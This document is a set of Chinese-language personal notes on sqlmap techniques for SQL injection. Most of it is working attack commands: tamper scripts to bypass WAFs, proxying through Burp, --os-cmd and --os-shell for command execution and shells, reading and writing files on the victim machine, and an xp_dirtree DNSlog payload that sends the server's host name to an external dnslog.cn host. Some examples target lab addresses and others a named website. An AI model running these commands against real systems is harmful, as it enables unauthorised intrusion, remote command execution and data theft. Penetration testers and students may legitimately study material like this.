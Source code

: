 # sqlmap tricks 


## level and risk in detail
**blue---> level **
**red---> risk **
![[Pasted image 20211210155402.png]]


## 手工指定注入点


问题：

For example, `http://127.0.0.1/index.php?id=10-1` displays the content of `id=9`.
id=10-1，但是会被识别为9 .

解决方案：
` http://mysite.com/test.php?id=*10-1`

参考链接：
https://security.stackexchange.com/questions/178771/sqlmap-injection-point


## 指定user-agent
sqlmap默认是特定的user-agent，有的网站会拦截
加 --user-agent=???指定user-agent




## 过waf / 技巧性sql注入

### 宽字节注入使用sqlmap

手注过程/原理： https://segmentfault.com/a/1190000020772218

sqlmap 

列出可用的tamper，会列出可用tamper和简单说明。

```shell
sqlmap --list-tampers
```

![[Pasted image 20211211120655.png]]

tamper应用例:

宽字节注入 sqli lesson 32
```shell
sqlmap -u "http://192.168.50.11/Less-32/?id=1" --tamper=unmagicquotes.py --dbs --tables
```



利用proxy,burp抓sqlmap的包

burp加代理  ![[Pasted image 20211211124228.png]] 

```shell
sqlmap -u "http://192.168.50.42/06/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name --proxy=http://192.168.50.31:1111 --dbms mysql
```

burp抓到包：
![[Pasted image 20211211124252.png]]
也可以使用ip代理池 ```--proxy-file```

过相应waf从网上找或者自己写相应tamper即可。


## sqlmap命令执行
注：比较少见而且限制很多。
一般需要current user是dba权限时才能发挥作用

### 执行一条os command
``` --os-cmd=OSCMD```
例：
```shell
sqlmap -u "http://www.dm1.com/inj.aspx?id=1" -v 1 --os-cmd="ipconfig"
```

![[Pasted image 20211211173904.png]]

### get shell
```--os-shell```
例：
```shell
sqlmap -u "http://www.dm1.com/inj.aspx?id=1" -v 1 --os-shell
```
![[Pasted image 20211211174101.png]]


## 读入/写入文件

### 读入
例：
```shell
sqlmap -u "http://www.dm1.com/inj.aspx?id=1" -v 1 --file-read="C:/Windows/System32/inetsrv/MetaBase.xml" --threads=10
```
使用前提： 有足够权限 + 知道要读取的文件在受害机上的路径
![[Pasted image 20211211182937.png]]

### 写入（往受害机写入）
例：
```shell
sqlmap -u "http://www.dm1.com/inj.aspx?id=1" -v 1 --file-write D:\1.txt --file-dest C:\Hws.com\HwsHostMaster\wwwroot\dm1.com\web\1.txt

```

使用前提： 有足够权限 + 提供正确读/写路径

## sqlmap dnslog注入

1. 需要找到注入点
2. 调取sql-shell      
3. 准备dnslog服务器
4. 构造payload
5. 查看dnslog服务器，得到想要结果


1,2 ---> 
```shell 
sqlmap -u "http://www.dm1.com/inj.aspx?id=1" --sql-shell
```

![[Pasted image 20211211185004.png]]

3 --->  ```jho7xh.dnslog.cn``` ![[Pasted image 20211211185047.png]]

4 ---> 

```shell

declare @s varchar(5000),@host varchar(5000) set @s=(host_name()) set @host=CONVERT(varchar(5000),@s)+'.jho7xh.dnslog.cn';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"')

```

5 --->  
![[Pasted image 20211211185437.png]]
得到了host_name() : 12SERVER5

命令前半段是拼接字符串， 没什么好说的
后半段
```shell
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"')
```

```master..xp_dirtree```是读取后面目录下的所有文件。 而用在dnslog的sql injection上面，因为会发出请求，dnslog就会留下记录，从而得到想要信息。

参考链接： https://www.acunetix.com/blog/articles/blind-out-of-band-sql-injection-vulnerability-testing-added-acumonitor/



## sqlmap dns注入

https://www.wangan.com/articles/1179

还有一种方法理论上可以使用burp插件，但是实践未成功(sqlmap dns collaborator)
